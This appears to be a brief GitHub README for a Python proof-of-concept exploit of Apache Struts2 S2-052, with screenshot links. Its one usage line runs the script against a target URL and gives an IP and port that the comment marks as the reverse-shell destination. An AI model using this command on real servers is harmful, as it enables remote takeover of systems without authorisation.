 # Apache-Struts2

Usage : python S2-052-POC.py http://127.0.0.1/orders/ ip port #反弹目标主机IP 端口
<img width="940" alt="WechatIMG8" src="https://user-images.githubusercontent.com/19663680/183552139-2f18e2c0-5e2e-4fde-addc-caebf95c036e.png">
<img width="627" alt="WechatIMG9" src="https://user-images.githubusercontent.com/19663680/183552207-f48de5e1-f7f1-4146-bf5c-e535fb17cf6b.png">
